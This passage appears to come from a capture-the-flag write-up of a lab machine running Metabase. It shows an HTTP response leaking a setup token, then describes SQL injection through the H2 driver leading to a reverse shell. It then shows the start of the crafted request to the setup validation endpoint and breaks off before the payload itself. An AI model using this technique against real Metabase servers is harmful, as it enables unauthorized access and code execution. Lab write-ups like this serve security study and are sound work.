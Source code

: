 ```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 21 Oct 2023 15:26:10 GMT
Content-Type: application/json;charset=utf-8
Connection: close
X-Frame-Options: DENY
X-XSS-Protection: 1; mode=block
Last-Modified: Sat, 21 Oct 2023 15:26:10 GMT
Strict-Transport-Security: max-age=31536000
X-Permitted-Cross-Domain-Policies: none
Cache-Control: max-age=0, no-cache, must-revalidate, proxy-revalidate
X-Content-Type-Options: nosniff
Content-Security-Policy: default-src 'none'; script-src 'self' 'unsafe-eval' https://maps.google.com https://accounts.google.com    'sha256-K2AkR/jTLsGV8PyzWha7/ey1iaD9c5jWRYwa++ZlMZc=' 'sha256-ib2/2v5zC6gGM6Ety7iYgBUvpy/caRX9xV/pzzV7hf0=' 'sha256-isH538cVBUY8IMlGYGbWtBwr+cGqkc4mN6nLcA7lUjE='; child-src 'self' https://accounts.google.com; style-src 'self' 'unsafe-inline' https://accounts.google.com; font-src *; img-src * 'self' data:; connect-src 'self' https://accounts.google.com metabase.us10.list-manage.com   ; manifest-src 'self';  frame-ancestors 'none';
Expires: Tue, 03 Jul 2001 06:00:00 GMT
Content-Length: 74478

{"engines":{
.
.
SNIP
.
.
"landing-page":"","setup-token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f","application-colors":{},
.
.
SNIP
.
.
```

The exposure of the `setup-token` posed a severe threat, as it allowed unauthorized access to sensitive data sources. The team carefully analyzed the Metabase code and its historical commits to understand the root cause of this issue.

To achieve `RCE`, they used a specific payload to perform an `SQL injection` attack on the `H2` database driver. This injection led to code execution, and they obtained a reverse shell on the system.

```
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Connection: close
Referer: http://data.analytical.htb/auth/login?redirect=%2F
Cookie: metabase.DEVICE=4dfa8070-4391-4a8d-b301-b402e4c0b274
Content-Length: 749

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
```